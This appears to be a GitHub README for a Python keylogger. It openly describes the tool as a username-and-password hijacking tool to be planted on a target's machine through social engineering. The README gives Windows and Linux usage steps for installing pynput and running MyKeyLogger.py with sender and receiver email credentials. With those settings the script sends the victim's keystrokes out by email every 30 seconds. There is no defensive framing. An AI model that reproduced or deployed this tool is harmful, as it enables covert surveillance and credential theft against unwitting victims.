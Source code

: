 Keylogger is a tool that helps you when you try to capture your target's keystrokes on his/her keyboard. You can use it as a Username-Password hijacking tool when you upload this program as a executable file (via social engineering) to your target's machine.

USAGE: 
```
       1.1-) FOR WINDOWS: Open cmd and write this command -> cd Desktop
       1.2-) C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe -m pip install pynput(First part is your python.exe's location change it properly                for your device python.exe location)      
       1.3-) After you install pynput library, run the KeyLogger with -> C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe python3 MyKeyLogger.py                -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
       1.4-) After that, keylogger will capture all of the keystrokes on the target machine and will send E-mails that contains keystrokes from the target.   
       2.1-) FOR LINUX: Open terminal and write this command -> pip3 install pynput
       1.2-) cd /root/PycharmProjects/Keylogger
       1.3-) python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress'                                    password)
       1.4-) If you have any problem in LINUX do as follows : 
             sudo apt update
             sude apt install python3
             sudo apt-get install python3-dev
             sudo apt install python3-pip 
```
And your program will run without any error.

IMPORTANT NOTE: The first mail on the receiver e-mail will be empty. Ignore it, the second mail will come after 30 seconds and will contain the keylogs of the target machine.
                            
                            
       
